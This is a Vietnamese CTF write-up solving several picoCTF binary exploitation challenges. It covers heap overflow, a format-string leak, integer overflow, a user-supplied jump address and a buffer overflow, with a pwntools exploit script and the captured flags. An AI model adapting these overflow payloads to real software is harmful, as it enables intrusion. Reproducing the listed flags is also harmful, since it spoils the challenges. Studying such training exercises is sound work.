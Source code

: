# heap 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/439?category=6&difficulty=2&page=1)
## Solution
- Bài này giống bài [heap 0](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/easy/writeup.md), tuy nhiên có sự khác biệt ở chỗ biến `safe_var` phải là chuỗi `pico` thì ta mới thu được flag
- Thực hiện `netcat` tới server
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-1.png)
## Flag
```picoCTF{starting_to_get_the_hang_9e9243f9}```
# heap 2
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/435?category=6&difficulty=2&page=1)
## Solution
- Đọc hàm `main` của file `chall.c`, ta vẫn thấy motip giống nhau đều là nhập `buffer` để làm tràn số, tuy nhiên bài này khó ở chỗ là chúng ta phải hiểu hàm `check_win`
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
- Search chatgpt, tôi biết được rằng hàm này cho phép thực thi hàm `win` thông qua địa chỉ được lưu trong `x` hay nói cách khác `x` chính là địa chỉ của hàm `win`
-> Chúng ta phải đi tìm địa chỉ hàm `win`
- Sử dụng câu lệnh `objdump -D chall | grep win` ta thu được địa chỉ hàm win là `00000000004011a0`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-2.png)
- Chúng ta phải chuyển địa chỉ hàm `win` sang `little-endian` để tiến hành viết payload. Lý do phải chuyển sang `little-endian` là vì:
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-3.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-4.png)
- Viết payload để lấy flag:
```Python
from pwn import *

p = remote("mimas.picoctf.net", 51605)

payload = b'2'
p.sendlineafter(b"Enter your choice: ", payload)
payload = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00'
p.sendlineafter(b"Data for buffer: ", payload)
payload = b'4'
p.sendlineafter(b"Enter your choice: ", payload)

p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-5.png)
## Flag
```picoCTF{and_down_the_road_we_go_91218226}```
# format string 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&page=1)
## Solution
- Đọc qua file code `chall.c`, ta thấy bug ở dòng 36
```C
printf(buf);
```
- Đây là lỗ hổng `format string` khi in `buf` không đúng định dạng, dẫn tới việc có thể khai thác lỗ hổng thông qua dòng code đó
- Tiến hành `netcat` tới server, ta thu được chuỗi `hex`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-6.png)
- Lấy đoạn `hex` sau `(nil)`, tiến hành loại bỏ những đoạn `hex` không có ý nghĩa và viết code thu được flag
```Python
hex = ["7b4654436f636970",
       "355f31346d316e34",
       "3478345f33317937",
       "35365f673431665f",
       "7d313464303935",]
print((bytes.fromhex(hex[0])[::-1] +
       bytes.fromhex(hex[1])[::-1] +
       bytes.fromhex(hex[2])[::-1] +
       bytes.fromhex(hex[3])[::-1] +
       bytes.fromhex(hex[4])[::-1]).decode())
```
## Flag
```picoCTF{4n1m41_57y13_4x4_f14g_65590d41}```
# two-sum
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/382?category=6&difficulty=2&page=1)
## Solution
- Đọc file code `flag.c`, ta thấy rằng để truy cập vào file `flag.txt` ta phải nhập 1 trong 2 số `num1` hoặc `num2` lớn hơn 0 và phải thỏa mãn tổng 2 số phải nhỏ hơn 0
- Nhận thấy `num1` và `num2` là kiểu dữ liệu `int` nên chúng ta có thể khai thác lỗ hổng tràn số thông qua kiểu dữ liệu
- Tiến hành `netcat` tới server, ta thu được flag
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-7.png)
## Flag
```picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}```
# Picker IV
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/403?category=6&difficulty=2&page=1)
## Solution
- Để lấy được flag, ta phải tìm địa chỉ hàm `win` và nhập địa chỉ vào biến `val`
```C
printf("Enter the address in hex to jump to, excluding '0x': ");
scanf("%x", &val);
printf("You input 0x%x\n", val);
void (*foo)(void) = (void (*)())val;
foo();
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-8.png)
## Flag
```picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}```
# buffer overflow 0
## Challenge
[link challenge]()
## Solution
- Ta thấy biến `buf1` có kích thước tối đa là 100 nên ta sẽ nhập 101 kí tự để xảy ra hiện tượng `SIGSEGV`, từ đó hàm `sigsegv_handler` được thực hiện
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-9.png)
## Flag
```picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}```